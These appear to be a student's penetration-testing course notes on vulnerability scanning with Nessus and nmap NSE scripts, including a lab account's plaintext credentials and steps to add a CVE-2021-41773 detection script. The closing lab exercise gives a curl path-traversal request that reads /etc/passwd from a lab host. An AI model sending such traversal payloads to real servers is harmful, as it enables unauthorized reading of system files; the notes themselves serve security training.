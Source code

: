 
1. Nessus Credentials 
```
Username: Sujanpandey
Password: Sujan123@

# In case if you want to change. 

1. List out users 
┌──(root㉿kali)-[/opt/nessus/sbin]
└─# ./nessuscli lsuser              
Sujanpandey

2. Change password
┌──(root㉿kali)-[/opt/nessus/sbin]
└─# ./nessuscli chpasswd Sujanpandey
New password: 
New password (again): 
Password changed for Sujanpandey

```


## 7.2. Vulnerability Scanning with Nessus

#### 7.2.1.  Installing Nessus

1. Nessus start, status and stop commands 
```
sudo systemctl start nessusd.service 
sudo systemctl status nessusd.service 
sudo systemctl stop nessusd.service 
```

#### 7.2.2. Vulnerability Scanning with Nessus

Following course is enough

## 7.3. Vulnerability Scanning with Nmap

#### 7.3.1. NSE Vulnerability Scripts 

```
1. location of NSE scripts - cd /usr/share/nmap/scripts/
2. List out Vuln category - cat script.db  | grep "\"vuln\""
3. Checknig vulnerability with nmap against NSE "vuln" script - sudo nmap -sV -p 443 --script "vuln" 192.168.50.124

```

#### 7.3.2. Working with NSE Scripts

1. Download and paste CVE script from google to NSE scripts. 
```
┌──(kali㉿kali)-[~]
└─$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
```

2. Update scripts 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap --script-updatedb 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-18 18:50 EST
NSE: Updating rule database.
NSE: Script Database updated successfully.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.41 seconds
```

3. Run the CVE script against host
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.228.13
```

*Lab Exercise*
1. curl http://192.168.228.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
